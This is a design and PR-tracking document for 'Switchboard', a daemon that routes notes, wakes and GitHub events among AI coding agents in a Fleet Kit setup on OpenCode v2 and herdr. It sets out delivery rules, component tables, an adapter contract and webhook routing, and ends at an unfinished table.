# Switchboard: tracking

> Event-driven delivery for Fleet Kit on OpenCode v2 that never interrupts.
> This plan is updated as each PR lands. Last updated 2026-10-07.
>
> It lives at `docs/switchboard.md` on the stack. After PR 1 it is edited only
> on the current top branch, so status updates never rebase lower PRs.

## Status

| PR | Branch | Scope | State |
|---|---|---|---|
| 1 | `switchboard/v2-client` | v2 client, isolated lab, scenario format and runners, spikes S1–S7 | ready for review [#15](https://github.com/adamkaplan/fleet-kit/pull/15); spikes pass |
| 2 | `switchboard/delivery` | Delivery rule: pending derived from sources, notes vs. wakes, batching, `send`; the Lab scenario runner; spikes as scenarios | ready for review [#17](https://github.com/adamkaplan/fleet-kit/pull/17); W2, B1, R2 and S2–S7 pass offline and in the Lab |
| 3 | `switchboard/herdr` | `launch`, herdr's OpenCode integration, status-change events, badges, toasts | ready for review [#19](https://github.com/adamkaplan/fleet-kit/pull/19); D1 and L1 pass offline and in the Lab |
| 4 | `switchboard/worker-events` | Worker done or blocked → its orchestrator; the substrate scenarios pass in the Lab | ready for review [#20](https://github.com/adamkaplan/fleet-kit/pull/20); N1, N2, W1, W3, R1, H1, R3 pass offline and in the Lab; Q1 offline only |
| 5 | `switchboard/github-events` | GitHub events via `gh webhook forward`; catch-up read after gaps | ready for review [#21](https://github.com/adamkaplan/fleet-kit/pull/21); G1–G3 pass offline; SG1 is a spike for a scratch repo |
| 6 | `switchboard/intent` | Asks with Intent and Done-when; every message names its ask; `intents`; changes surfaced; role maxims and the reach-for-you rubric | ready for review [#22](https://github.com/adamkaplan/fleet-kit/pull/22); I1–I3 pass offline; I4, K1, K2 wait for the Copilot login |
| 7 | `switchboard/judges` | Jev decision-model client; the message classifier and the tool-call judge in shadow mode | ready for review [#23](https://github.com/adamkaplan/fleet-kit/pull/23); J1 and F5 pass offline and in the Lab |
| 8 | `switchboard/foreground` | Classify your messages; hand unrelated work to a background subagent; decorate messages about owned asks; spikes SF1–SF4 | ready for review [#24](https://github.com/adamkaplan/fleet-kit/pull/24); F1–F4 pass offline; SF1, SF2 (first cut) and SF4 measured in the Lab |
| 9 | `switchboard/policy` | Tool-call policy judge through the thin `fleet-hooks` plugin; spikes SP1–SP2 | ready for review [#25](https://github.com/adamkaplan/fleet-kit/pull/25); P1–P6 pass offline; SP1 measured in the Lab, then the real plugin end to end |
| 10 | `switchboard/v1-move` | Import a v1 session into v2; cutover runbook | ready for review [#26](https://github.com/adamkaplan/fleet-kit/pull/26); M1 passes offline; the import round trip is half-measured in the Lab |
| 11 | `switchboard/trial` | `bin/switchboard-trial`: a Lab-isolated profile with GitHub Copilot, to try the system by hand; `launch --charter` | ready for review; see [switchboard-trial.md](switchboard-trial.md) |
| 12 | `switchboard/presentation` | A three-minute narrated deck and video explaining the system: `docs/presentation/` | ready for review [#28](https://github.com/adamkaplan/fleet-kit/pull/28); see [presentation/README.md](presentation/README.md) |
| 13 | `switchboard/reports` | Workers report with `fleet-switchboard report`; a bare idle is a rider and wakes nobody; a stop without a report is triaged; every message carries a one-line description for the TUI | ready for review |
| 14 | `switchboard/decisions` | A read-only Decisions list for you: derived from labels, pending requests and unanswered reports, written to `decisions.json`, read by `fleet-switchboard decisions` and a TUI sidebar plugin | ready for review |
| 15 | `switchboard/multi-repo` | One Chief of Staff, many independent projects: the watched repos are derived, `owner/repo#N` issue references, a `gh` account per repo, `launch --new-workspace`, repo creation is a decision and always hard to reverse, per-repo status | ready for review |
| 16 | `switchboard/install` | `fleet-switchboard install`: config, the kit's pieces in OpenCode's profile, the herdr plugin and a service that keeps the daemon alive; the decision-model key as a private file; the daemon started on use; `bootstrap` opens the Chief of Staff | ready for review |
| 17 | `switchboard/orders` | Standing orders an agent does not forget: kept on the charter issue, recorded by the Chief of Staff with `fleet-switchboard orders`, re-supplied to every agent of the charter at its start, after each compaction and when they change, and read by the judge at every tool call | ready for review |
| 18 | `switchboard/tiers` | Decision tiers (`cos`, `human`, `orchestrator`) on every decision, so an orchestrator never goes straight to you and the Chief of Staff resolves or escalates; the Chief of Staff's own standing orders, one local file fed to the judge and told to it; `decisions escalate`, `resolve` and `answer`; `labels ensure`; per-repo and per-role views in the TUI panel | ready for review |

Each PR is opened as soon as it is ready. The whole stack merges to `main` in
one atomic `gh stack merge`, and only once the system is complete.



## Problems

The fleet is a fan-out: you talk to a Chief of Staff, which hands work to
orchestrators, which dispatch workers. You mostly talk to the Chief of Staff,
not to the agents below it.

1. **Telephone, mostly on the way back.** Your intent travels down through the
   Chief of Staff and progress travels back up the same way. The drift happens
   mostly on the way up: an orchestrator reports in its own framing, the Chief
   of Staff adopts it, and both its next ask and its summary to you follow that
   framing instead of what you asked. Nothing keeps your original intent and
   success criteria in front of the Chief of Staff when a report arrives. Also,
   text the Chief of Staff types into an orchestrator's pane looks exactly like
   your typing.
2. **Serial Chief of Staff.** You think of things to discuss faster than the
   Chief of Staff can carry them out. It has one conversation and works on one
   thing at a time, so a question about B waits for A to finish or gets mixed
   into A, and machine wakes take turns in the middle of your conversation
   with it.
3. **Interruptions.** Wakes are typed into the agent's input box.
   - A half-written message of yours can be submitted along with the wake,
     because the empty-box check and the send are not atomic.
   - Wakes also arrive as turns in the middle of your conversation with the
     agent.
4. **Silent completions.** A worker finishing wakes nobody. Its orchestrator
   only finds out on the next timer.

How it works today, with each problem marked where it happens:



Evidence from real use:

- An idle orchestrator spent 18 overnight wakes in a row concluding "no
  change."
- A Chief of Staff pane missed thousands of wakes because of an unsent draft.
  The only sign was a symbol on its tab.
- A Chief of Staff gave its principal a status picture built from
  orchestrators' framing; two of its three facts were wrong.

## Decisions

| Topic | Decision |
|---|---|
| Harness | OpenCode v2 only. Other harnesses come later, as adapters. |
| Plugins | At most one, and thin: `fleet-hooks` forwards v2's `permission` hook (PR 9), and a `prompt` hook if PR 8 needs it, to the CLI. No logic lives in it. herdr's own OpenCode integration reports status; v2's server API covers notes, wakes and reads. |
| Location | `bin/fleet-switchboard` (stdlib Python) plus a herdr plugin manifest, both in this repo. |
| State | Almost none. An append-only audit log and a reminders file. Everything else is derived on each pass from herdr, v2 and GitHub, so there is nothing to keep in sync; see [Data](#data). |
| Status | herdr is authoritative for working, idle and blocked. Its OpenCode integration supports v2 through a pane-local TUI plugin. |
| Engagement | "You are engaged with an agent" means you prompted it in the last 10 minutes. There is no viewed state. It matters mostly for the Chief of Staff, the agent you talk to. |
| Intent | Each request handed to an orchestrator is an ask: an issue under its charter with a one-line Intent and a one-line Done-when. Every message names its ask and carries those lines, in both directions. Only you, or the Chief of Staff with your yes, change them (PR 6). |
| Chief of Staff attention | Serial by default. Jev classifies each message from you against the asks in flight. Unrelated work in progress is handed to a background subagent with a written brief, never a forked session; a message about an ask that already has an owner is decorated so the Chief of Staff forwards it (PR 8). |
| Decision model | Jev (`typesafe/jev-1.13` on OpenRouter) for yes/no and pick-one judgements: cheap, fast, probabilities instead of text. Shadow mode first (PR 7). Unsure or unreachable means change nothing. |
| Conduct | A few short maxims per role, and one reach-for-you rubric, instead of long rules (PR 6). Adapted from Firstmate. |
| Tool calls | No fixed read-only roles. Consequential tool calls are judged in context by Jev against the role, the ask's Intent and the charter's standing authority. The judge only tightens: allow can become ask or deny, never the reverse (PR 9). |
| Testing | Every promised behaviour is a scenario, run offline in CI against fakes and in the Lab against real v2 and herdr. Each scenario's control, with its safeguard switched off, must fail. See [Scenario testing](#scenario-testing). |
| Harness boundary | One adapter contract with capability flags. OpenCode v2 is the only adapter built; a hook-based adapter is specified but not built. |
| GitHub events | Webhooks relayed by `gh webhook forward`, supervised by the daemon. No timer-based polling; one bounded catch-up read of the gap after each forwarder start, from a read marker and forward only, because the forwarder does not replay (PR 5, and see "Reads move forward only"). |
| Heartbeat | `fleet-heartbeat` is unchanged and keeps serving v1 panes. A pane the switchboard manages never carries the heartbeat's opt-in bell glyph. |
| Machine text | Always a v2 `synthetic` message tagged `[switchboard]`; never typed, never sent as a user message. The TUI does not show it (S3); the badge, `status` and the audit log do. |
| Agent to agent | Agents message each other only with `fleet-switchboard send`, never by typing into a pane. |
| Talking to orchestrators | You can talk to any orchestrator directly. Nothing extra is recorded; the issue already carries the intent. |
| v1 sessions | Imported, not restarted (PR 10). |

## Design



### Delivery rule

Items for an agent are collected for 90 s, so a burst of events becomes one
message. A `send` from another agent skips the batch.

- **You are engaged with the agent → note.** Engaged means you prompted it in
  the last 10 minutes: the newest user message in its transcript that the
  fleet did not send. The switchboard calls `session.synthetic` with
  `resume: false` and `delivery: "steer"`. That starts no turn; the note
  reaches the model in the same request as your next message, just before it
  (S3). With `queue` it would instead arrive after the agent had answered you,
  and start a turn of its own.
- **Otherwise → wake.** `session.synthetic` with `resume: true` and
  `delivery: "queue"`. It never cuts into a running turn.
- **A boss's `send` to a working agent → steer.** A wake that carries a `send`
  from the agent's own `reports_to` boss, to an agent herdr shows as working
  (read again just before the write), goes in as `delivery: "steer"` with
  `resume: true` instead of `queue`. Measured on v2 2.0.24 in a throwaway
  profile with a mock model: a steer waits in the inbox while a tool call
  runs, and enters the transcript when it returns, before the next model
  request, so the call is not cut; `queue` waits for the whole turn. `resume:
  true` also makes the race harmless: a steer that arrives after the turn has
  ended starts a turn at once instead of sitting unread. The audit line of
  that `v2.synthetic` carries `"busy": true`. Reports, worker events, GitHub
  events, reminders and orders keep the rules above, and so does a `send`
  from anyone but the boss. The config key `send_to_working` (`"steer"`, the
  default, or `"queue"` for the old behaviour) is the one switch.
- **Explicit interrupt.** `fleet-switchboard send --interrupt <agent> "text"`
  is for stop and hold orders only, from a boss to its own worker, and is
  never automatic. It calls `session.interrupt` with `resume=false` (the
  in-flight tool call is cut and the turn ends; a steering message still
  waiting stays in the inbox rather than running), then delivers the message
  as a wake, so the agent starts a turn that reads it and carries anything
  that waited. It is refused (exit 2, `interrupt.refused` in the audit) when
  the sender is not the recipient's boss, and holds like `send` (nothing
  interrupted) when the recipient is blocked or gone. The audit has its own
  `v2.interrupt` event, before the `v2.synthetic` of the message.
- **The message is the delivery.** It contains the items themselves, grouped
  by issue, each group headed by that issue's Intent and Done-when lines (PR 6).
  There is nothing to fetch and nothing to acknowledge: once the message is in
  the agent's transcript, it has been delivered. Messages are capped in length;
  overflow is listed by `fleet-switchboard pending <agent>`.
- **Never typed.** The switchboard never calls `herdr agent prompt` and never
  writes into a pane's input box.
- **A note that outlives your attention.** If 10 minutes pass with no prompt
  from you and a note is still waiting in v2's inbox, it becomes a wake:
  `session.inbox.update` to `queue` and then to `steer`, which starts a turn
  (S3). v2 refuses to change a waiting steer item to steer directly.
- **Riders (PR 13).** A fact may be a rider: carried, never the reason for a
  message. `decide` ignores riders when it picks the action and starts the
  batch clock: pending that is all riders yields no plan, and a note left
  unread is converted to a wake, so "make it a note" silences nothing. When any
  other fact is pending, every rider for that recipient goes in the same
  message. Before composing, riders are collapsed to the newest `worker.idle`
  per sender, and a rider older than `rider_max_age_seconds` (default 3600) is
  dropped. Delivered riders are recorded by key like any fact. `pending` and
  `status` still list riders, marked `[rider]`.
- **A report folds into the send before it (#352).** A done, failed, blocked or
  question report that comes within 10 minutes of a message the same agent
  delivered to the same boss on the same issue is not a second wake: it is
  delivered in full as a note (an unread note is still converted to a wake), with
  its state first (`question: ...`) and a mark that it follows the earlier message.
  Only a send that woke the boss counts: one that was itself a note, or was held,
  folds nothing. A different issue, another recipient, an older send or no send at
  all is delivered as before. Under `v2_light` nothing folds, because a note is
  not converted to a wake there: the report wakes as before, unmarked. The record is `send_on` in
  `last-reports.json` (at most 8 recipients per sender); the logic is
  `bin/report_fold.py`.
- **One line in the TUI (PR 13).** v2's TUI does not show a synthetic message's
  text, but it shows its `description` as one row. Every message the switchboard
  writes carries one, at most 200 characters, no newline: `switchboard: <sender>
  <what> on #<issue>: <first 100 characters>` for one item, `switchboard: <n>
  items for <recipient>: <first item, 80 characters>` for several. The message
  itself stays invisible; the description, the herdr badge, `fleet-switchboard
  status` and the audit log show what was delivered.



## System design

This section is the contract the code is built against. Anything marked
**(verify Sn)** is an assumption that spike Sn must confirm before code
depends on it.

### Components

| Component | Runs as | Does |
|---|---|---|
| `fleet-switchboard run` | One long-running daemon per user, guarded by a single-instance lock. Started by herdr's `[[startup]]` hook through `fleet-switchboard ensure`. | The loop below, on every herdr status event and at least every 60 s |
| `fleet-switchboard <command>` | Short-lived CLI, run by you and by agents | `launch`, `send`, `remind`, `intent`, `pending`, `status`, `audit`, `poke`. `send` applies the delivery rule and delivers itself; it does not need the daemon |
| Harness adapter | A class shared by the daemon and the CLI, one per harness kind | Everything harness-specific: launch, observe, note, wake |
| herdr plugin manifest | `herdr-plugin.toml` | Starts the daemon; turns herdr events into pokes |
| Files | `$XDG_STATE_HOME/fleet-switchboard/` (mode 0700): `audit.jsonl`, `reminders.json`, `github-read.json` (a read marker per repo: a disposable cursor, below), the lock. Config in `$XDG_CONFIG_HOME/fleet-switchboard/config.json`, because the kit supports Python 3.9, which has no `tomllib` | See [Data](#data) |
| Decision model client (PR 7) | A class in `bin/fleet-switchboard`, stdlib `urllib`. The OpenRouter key comes from the switchboard's config and never enters an agent's environment | Jev calls for the classifier and the shadow judges |
| `fleet-hooks` plugin (PR 8–9) | A v2 plugin of a few lines, loaded from the Lab's config | Forwards v2's `permission` hook, and `prompt` if needed, to `fleet-switchboard`; holds no logic |
| GitHub forwarders (PR 5) | One `gh webhook forward` child process per watched repo, supervised by the daemon, which receives on a listener bound to 127.0.0.1 | Relays GitHub webhooks to the daemon |

The daemon runs one loop with five steps:

1. **Observe.** Ask herdr which panes run fleet agents and what state each is
   in. Read each agent's session from v2.
2. **Derive.** Compute the facts that hold now, such as "this worker's last
   turn ended at T," and subtract the facts already delivered, which are
   recorded in each recipient's transcript. What remains is pending.
3. **Decide.** For each agent whose pending items are past the batch window,
   apply the delivery rule.
4. **Deliver.** Observe that agent again, then note or wake it.
5. **Render.** Update herdr: unread badges, toasts for held items.

Every write to another system is recorded in the audit log twice: the intent
before the call, and the result after it.

### Integration touch points

#### herdr

herdr hosts the panes, owns agent status, and tells the switchboard when status
changes. It is never a delivery channel to an agent.

| Direction | Call | Purpose |
|---|---|---|
| setup | `herdr integration install opencode` | Installs herdr's OpenCode integration, including its v2 TUI plugin, which reports working, idle and blocked, and the session id. In the Lab it goes into the scratch config (verify S1, S6) |
| read | `agent list`, `agent get` | Pane, workspace, tab, `agent_status` (authoritative for v2 panes through the integration), `agent_session` (which v2 session the pane shows) |
| read | Plugin `[[events]]` on `pane.agent_status_changed`, `pane.created`, `pane.closed`, `pane.exited` | Run `fleet-switchboard poke`, so a status change is acted on within seconds. A 60 s pass is the backstop |
| write | `tab create --no-focus`, then `agent start --kind opencode --pane <p> -- -s <session>` | Open a pane for a launched agent without moving your focus |
| write | `workspace create --cwd <dir> --label <text> --focus` (PR 16) | `bootstrap` opens the Chief of Staff in a workspace of its own, focused, because the person wants to see it. The one call that takes focus; only a person's own command makes it (`--no-focus` for scripts and trials) |
| write | `pane report-metadata --token unread=<n>` | Unread count in the sidebar. Display-only; the switchboard never uses `report-agent`, which would take status authority away from the integration |
| write | `notification show` | Toast for a held item, a blocked worker, an Intent change, or a switchboard fault |
| never | `agent prompt`, `agent send-keys`, `pane send-text`, `pane send-keys`, `pane run`, any focus command but the one above | The switchboard never types and never moves your focus on its own |

herdr's v2 status comes from the TUI plugin, so it covers agents running the
full TUI. v2's Mini and headless clients report nothing; fleet agents always
run the TUI.

#### Harness adapter contract

Every harness implements one interface. The daemon and the delivery rule see
only this interface, never a harness by name.

```text
launch(name, agent, directory, brief, fleet)   -> session ref
observe(session ref)                           -> Observation
delivered(session ref, since)                  -> keys already delivered
note(session ref, text, keys, message id)      -> receipt   # adds context; starts no turn
wake(session ref, text, keys, message id)      -> receipt   # starts a turn if idle; waits for the current turn if busy
capabilities                                   -> which of the above it guarantees
```

`Observation` fields:

| Field | Meaning | OpenCode v2 source |
|---|---|---|
| `status` | `working`, `idle` or `blocked` | herdr `agent_status` |
| `fleet` | Name, role, `reports_to`, issue | v2 session metadata, set at launch |
| `idle_at`, `outcome` | When the last turn ended, and whether it succeeded, failed or was interrupted | v2 `Session.Info.time.idle`, `outcome` |
| `blocked_on` | The pending permission request or question, by id | v2 `permission.request.list`, `form.list` |
| `last_human_prompt` | When you last prompted it | v2 transcript |

The delivery rule degrades by capability, not by harness:

- **No `note`.** Items wait for a wake.
- **No `wake` that avoids typing.** Badge and toast only; the agent gets the
  items with its next turn. A typed wake is not part of the contract.
- **No `last_human_prompt`.** Every delivery is a wake.

The two adapters this document describes, side by side:



#### OpenCode v2 adapter (built)

All v2 calls go through `opencode api <operation>`, which finds the shared
service and handles authentication. One client class owns every call.

| Contract | OpenCode v2 |
|---|---|
| launch | `session.create` with the agent, title, location and `metadata.fleet = {name, role, reports_to, issue}`; a herdr tab running the TUI with `-s <session>`, started by absolute path and checked with `pane process-info` (S6: a login shell's PATH can resolve `opencode` to v1); then `session.prompt` with the brief, marked as sent by the fleet |
| observe `status` | herdr `agent_status` for the pane whose `agent_session` (an object, `{kind, value}`) names this session (S6). `done` counts as idle: herdr shows `done` after a turn in an unfocused pane |
| observe `fleet` | `session.get` → `metadata.fleet` (verify S5) |
| observe `idle_at`, `outcome` | `session.get` → `time.idle`, `outcome` |
| observe `blocked_on` | `permission.request.list`, `form.list` |
| observe `last_human_prompt` | `session.message.list`, newest first: the first message of type `user` without `metadata.fleet` (S5). Fleet prompts are also type `user`, so the metadata is what tells them apart |
| delivered | Synthetic messages newer than `since`, read newest first: their `metadata.fleet.keys`. Plus `session.inbox.list`, for items not yet delivered, whose metadata is under `payload.metadata` |
| note | `session.synthetic` with `resume: false`, `delivery: "steer"` and `metadata.fleet.keys` (S3) |
| wake | `session.synthetic` with `resume: true`, `delivery: "queue"` and `metadata.fleet.keys` (S4: idle, a turn starts in 0.06 s; busy, it runs after the turn's final reply, never between steps) |
| note → wake | `session.inbox.update` to `queue`, then to `steer`; or `session.inbox.cancel` and resend the same id as a wake (S3) |
| message id | Derived from the recipient's session id and the keys (`msg_` and 26 hex digits), so a retry reuses it. v2 admits a repeated id once and returns the original record, silently (S2), which is why the id uses the session and not the agent's name: a relaunched agent with the same name must not have its messages swallowed |
| events | `GET /api/event` streams only over direct HTTP to the service (Basic auth, credentials in the service's registration file); `opencode api` buffers the whole response (S2). The switchboard polls, woken early by herdr's status events |
| move a v1 session | `experimental.session.import` (PR 10) |

Capabilities: all of them, if S3 and S4 pass.

#### Hook-based harness adapter (contract only; not built)

A Claude Code-style harness has no server API, but it runs configured shell
commands on lifecycle events. It plugs in through
`fleet-switchboard hook <event>`, which reads the hook's JSON on stdin and
prints whatever the harness should inject. Hooks are configuration, not a
plugin.

| Contract | Hook-based harness |
|---|---|
| launch | `herdr agent start --kind <k>`; the session id arrives through the session-start hook |
| observe `status` | herdr's screen detection, or the harness's own hooks |
| observe `last_human_prompt` | Prompt-submit hook. Every prompt is yours, because the switchboard never types |
| delivered | No transcript API, so this adapter keeps delivered keys in a small local file: the one place it needs state |
| note | The prompt-submit hook returns pending items as added context. They ride on your next message, so no turn is started |
| wake | Partial. The stop hook can refuse to stop while items are pending, which covers the busy-to-idle edge only. An agent that is already idle cannot be woken without typing, so it gets a badge and a toast |

This is why the contract has capability flags: the same rule runs safely
against a weaker harness.

#### GitHub (PR 5)

GitHub events arrive as webhooks, relayed by the `gh webhook forward`
extension ([cli/gh-webhook](https://github.com/cli/gh-webhook)). Nothing is
polled on a timer.

- **One forwarder per watched repo,** started and supervised by the daemon as a
  child process. Which repos are watched is derived on every pass (PR 15,
  [Many repos](#many-repos-pr-15)): the config's `github_repos`, plus every repo
  a live fleet agent names, plus the repo of every charter it holds. The
  forwarder runs
  `gh webhook forward --repo=<repo> --events=<list> --url=http://127.0.0.1:<port>/github --secret=<secret>`,
  where `<port>` belongs to a listener the daemon opens on localhost only.
- **Events:** `issues` (including edits and label changes such as
  `awaiting-user`), `issue_comment`, `sub_issues`, `pull_request`,
  `pull_request_review`, `check_suite` and `workflow_run`. Verify SG1 for
  `sub_issues`.
- **Verification:** the daemon checks `X-Hub-Signature-256` against the secret
  before reading the body. That stops any local process from posting fake
  events.
- **Routing:** an event becomes a pending item for the orchestrator that owns
  the issue it touches. Issue events match on the issue number against the
  charter and its sub-issues. PR events match through the issues the PR
  closes. Check and workflow events match through the PRs listed in their
  payload.

  **Events on a PR the fleet opened (PR 52).** A PR needs no closing keyword to reach its agent. The links are
  tried in this order, and the first that finds an agent that is running wins:

  1. `closing`: the routing above, unchanged: closing keywords, the payload's linked issues, parents. It comes
     first so that nothing that routes today moves; a PR that has both a closing keyword and a notice goes where
     the keyword sends it.
  2. `notice`: a `notice pr` recorded for the PR (repo and number) names its sender; the event goes to that agent
     when it is running, else to the boss recorded with the notice (`notice pr` stores the sender's `reports_to`
     when it records). A notice recorded before this field existed has no boss: a gone sender then leaves the PR
     unrouted.
  3. `reference`: for a PR that names no closing issue, a plain `#N` in its title or body, or, when there is
     none, the number in its head branch name (`drift4242`). Accepted only when the PR names exactly one such
     number and that issue has an owner in the fleet (parents are climbed as for any issue); two or more stay
     unrouted. The PR's own number and `owner/repo#N` references do not count.
  4. `branch`: reserved. The launch metadata (`metadata.fleet`: name, role, reports_to, issue, charter, repo)
     does not record an agent's branch, so a head branch is not linked to an agent.

  Nothing found: the item is dropped and `github.unrouted` names the repo, the `prs` and the first 20 keys. An
  item that was routed is audited in `github.routed` with `routed_by` (`closing`, `notice`, `reference`), the
  recipient and the keys.

  **Which events reach the agent.** Everything routed by `closing` is delivered as before (a passing check
  included). For an agent found by `notice` or `reference` only these are delivered: a check or workflow run
  that failed, was cancelled or timed out; a review that requests changes; a merge conflict; a comment written
  by a person (not a login ending `[bot]`, not a user of type Bot, not signed with the fleet mark, not an author
  in `github_ignore_authors`; a person's comment is usually an instruction). Passing and skipped checks,
  approvals, PR state events and bots' comments are counted in one `github.not_delivered` line per repo and link
  per pass and are not sent.

  **Merge conflicts.** `gh pr view` for a notice (one read per open notice about a minute, within the hub timeout
  and the per-pass budget) also asks for `mergeable` and `headRefOid`; a PR that is `CONFLICTING` and open is
  one `github.conflict:<repo>#N:<head>` item, so one per head commit however many times it is read, routed by the
  links above. Only PRs with a notice are read for this. A PR without a notice gets a conflict only when a PR
  event carries `mergeable_state` dirty or `mergeable` false (GitHub's events usually do not).
- **Catching up after a gap:** the forwarder never replays what it missed. It
  reconnects 3 times, 5 s apart, then exits, and anything that happens while it
  is down is lost. So each time a forwarder starts, the daemon makes one
  catch-up read with `gh api` of the gap since that repo's read marker, never further back than the look-back
  window (default 24 hours), and forward only (see "Reads move forward only"). That read fills a gap; it is
  not a poll. Keys come from GitHub object ids,
  not delivery ids, so an event seen both ways is delivered once.
- **Writes:** none.



**Constraints from GitHub's docs and the extension's source.** Settled by spike
SG1 before PR 5 builds on them.

| Constraint | Consequence |
|---|---|
